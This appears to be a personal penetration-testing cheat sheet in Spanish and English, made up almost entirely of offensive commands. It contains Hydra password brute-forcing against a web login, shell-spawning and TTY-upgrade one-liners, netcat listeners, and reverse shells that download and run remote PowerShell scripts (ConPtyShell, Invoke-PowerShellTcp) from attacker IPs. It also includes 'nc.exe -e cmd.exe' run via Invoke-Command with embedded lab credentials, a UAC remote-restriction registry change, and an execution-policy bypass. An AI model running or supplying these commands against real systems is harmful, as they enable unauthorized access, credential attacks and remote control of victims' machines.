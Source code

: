# General

## Herramientas

### Hydra

`hydra -l <USER> -p <PASSWORD> <IP_ADDRESS> http-post-form "<LOGIN_PAGE>:<REQUEST_BODY>:<ERROR_MESSAGE>"`

##### JSON Payload

`hydra -l "root@dasith.works" -P "/usr/share/wordlists/rockyou.txt" -s 3000 10.129.244.81 http-post-form "/api/user/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:S=Password is wrong:H=content-type: application/json"`

## TTY

### Linux

```
ctrl + z
echo $TERM && tput lines && tput cols

# bash
stty raw -echo
fg

# zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

socat:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

Intérprete:

```
/usr/bin/script -qc /bin/bash /dev/null
/bin/sh -i
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')

# vi
:!bash
:set shell=/bin/bash:shell

# nmap
!sh

# mysql
! bash
```

### Windows

[ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

Server:

```bash
# 1
rlwrap nc -lvnp 3001

# 2
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Cliente:

```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

# Proxy debugging

TODO: Agregar comandos de shellhacks.com para redireccionar todo el tráfico de la consola a burpsuite

# Windows

## Crackmapexec `(Pwn3d!)`

`cmd.exe /c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f`

## Powershell

### Bypass de execution policy

```powershell
powerShell.exe -ExecutionPolicy Bypass .\script.ps1
```

Refs: https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/

### Invoke command providing credentials

```powershell
$userName = 'WORKGROUP\Hector'
$userPassword = 'l33th4x0rhector'
$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)
# ComputerName obtenida de los comandos: 
hostname
$env:COMPUTERNAME
[Environment]::MachineName

Invoke-Command -ComputerName Fidelity -Credential $credObject -ScriptBlock {C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.16 4321}

Start-Process -FilePath 'powershell' -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')" -Credential $credObject
```